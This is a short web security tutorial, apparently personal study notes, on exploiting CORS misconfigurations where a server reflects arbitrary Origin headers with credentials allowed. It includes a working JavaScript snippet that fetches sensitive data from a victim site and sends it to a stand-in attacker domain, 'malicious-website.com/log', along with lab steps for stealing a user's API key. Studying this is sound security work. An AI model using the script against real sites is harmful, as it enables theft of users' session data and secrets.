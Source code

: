# Methods to exploit CORS.


## Server-generated ACAO header from client-specified Origin header

- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

- One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```javascript
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-domain requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
}; 
```

>  CORS vulnerability with basic origin reflection

1. Check if the request responses with "Access-Control-Allow-Credential" if it's true then move on to next step.
2. Send the request to the "Repeater" and add header of your exploit server "Origin: https://www.exploit.com"
3. Now craft your javascript file in the exploit server and exploit it to get user APIs key or sensotive information.
